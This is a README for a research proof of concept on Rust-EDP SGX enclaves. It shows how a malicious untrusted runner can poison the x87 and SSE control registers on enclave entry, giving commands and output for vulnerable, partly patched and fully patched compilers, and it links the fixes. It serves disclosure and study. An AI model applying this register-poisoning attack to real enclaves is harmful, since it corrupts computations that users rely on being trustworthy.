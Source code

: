 # Proof-of-concept Rust-EDP exploitation with malicious runner

[![build status](https://travis-matrix-badges.herokuapp.com/repos/fritzalder/faulty-point-unit/branches/master/6)](https://travis-ci.org/github/fritzalder/faulty-point-unit)

This directory includes a minimal PoC showcasing insufficient ABI sanitization
in Rust-EDP. The PoC shows that untrusted code controls x87 and SSE
configuration registers on enclave entry, which got fixed after our disclosure
in newer Rust-EDP versions. We furthermore show that the initial fix did not
suffice and attackers could still override the expected result of an exemplary
x87 FPU computation with unexpected NaN outcomes. This too got fixed after our
disclosure in newest Rust-EDP versions.

## Building and running

The untrusted runner is included in a fork of the rust-sgx repo, while the
trusted enclave runtime is part of the Rust compiler. Instructions below also
include how to easily switch between vulnerable and patched compiler versions.

### Install vulnerable Rust-EDP

#### 1. Install Rust dependencies

```bash
$ curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
$ source $HOME/.cargo/env
```

#### 2. Switch to vulnerable Rust compiler version

```bash
$ rustup default nightly-2020-02-01
$ rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-02-01
$ rustc --version
rustc 1.42.0-nightly (cd1ef390e 2020-01-31)
```

#### 3. Install malicious Rust-EDP runner

```bash
$ cd rust-sgx-fpu/
$ cargo install --locked --path ./fortanix-sgx-tools fortanix-sgx-tools
$ cargo install --locked --path ./sgxs-tools sgxs-tools
$ echo >> ~/.cargo/config -e '[target.x86_64-fortanix-unknown-sgx]\nrunner = "ftxsgx-runner-cargo"'
```

#### 4. Test Rust-EDP installation (only on SGX hardware)

```bash
$ sgx-detect           # Check your SGX harware setup
$ cd ../hello-world/   # Run the test enclave without poisoning
$ cargo run --target x86_64-fortanix-unknown-sgx
   Compiling cc v1.0.54
   Compiling hello-world v0.1.0 (/home/jo/Documents/faulty-point-unit/02_table2_affected_runtimes/rust-edp/hello-world)
    Finished dev [unoptimized + debuginfo] target(s) in 1.45s
     Running `ftxsgx-runner-cargo target/x86_64-fortanix-unknown-sgx/debug/hello-world`
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000
```

#### 5. Run proof-of-concept attack

##### 5.1 Vulnerable Rust-EDP version (poison SSE MXCSR + x87 control word + x87 tag)

```bash
$ rustup default nightly-2020-02-01
$ rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-02-01
$ rustc --version
rustc 1.42.0-nightly (cd1ef390e 2020-01-31)

# First run the test enclave without poisoning
$ cargo clean
$ cargo run --target x86_64-fortanix-unknown-sgx

# Now run with the malicious FPU poisoning runner (x87 single precision, round down) --> vulnerable
$ fpu-runner --fpu=1087 ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] poisoning FPUCW with 0x43f
[enclave] Hello, world!
Pi      = 3.1411454399906846290946305089164525270462036132812500000000000000
MXCSR   = 0x5fa0
FPUCW   = 0x47f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135671854019165039062500000000000000000000000000000000000000

# Now run with the x87 FPU in MMX mode --> vulnerable
$ fpu-runner --mmx ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] putting CPU in MMX mode..
[enclave] Hello, world!
Pi      = 3.1411454399906846290946305089164525270462036132812500000000000000
MXCSR   = 0x5fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = NaN
```

##### 5.2 Initially patched Rust-EDP version (poison x87 tag)

```bash
$ rustup default nightly-2020-06-09
$ rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-06-09
$ rustc --version
rustc 1.46.0-nightly (fd4b177aa 2020-06-08)

# First run the test enclave without poisoning
$ cargo clean
$ cargo run --target x86_64-fortanix-unknown-sgx

# Now run with the malicious FPU poisoning runner (x87 single precision, round down) --> patched
$ fpu-runner --fpu=1087 ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] poisoning FPUCW with 0x43f
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000

# Now run with the x87 FPU in MMX mode --> vulnerable
$ fpu-runner --mmx ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] putting CPU in MMX mode..
[enclave] Hello, world!
Pi      = 3.1411454399906846290946305089164525270462036132812500000000000000
MXCSR   = 0x5fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = NaN
```

##### 5.3 Latest fully patched Rust-EDP version

```bash
$ rustup default nightly-2020-07-05
$ rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-07-05
$ rustc --version
rustc 1.46.0-nightly (0cd7ff7dd 2020-07-04)

# First run the test enclave without poisoning
$ cargo clean
$ cargo run --target x86_64-fortanix-unknown-sgx

# Now run with the malicious FPU poisoning runner (x87 single precision, round down) --> patched
$ fpu-runner --fpu=1087 ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] poisoning FPUCW with 0x43f
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000

# Now run with the x87 FPU in MMX mode --> patched
$ fpu-runner --mmx ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] putting CPU in MMX mode..
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000
```

## Disclosure and mitigation

We disclosed the core FPU sanitization issue in December 2019 which was addressed with a `ldmxcsr/csw` instruction [<https://github.com/rust-lang/rust/pull/69040>].

After further investigation, we found that this left the attacker open to perform the MMX attack as described in the paper. We also disclosed this issue and it is patched in the Rust compiler in version 1.46.0. The mitigation can be followed via this Pull Request [<https://github.com/rust-lang/rust/pull/73471>].

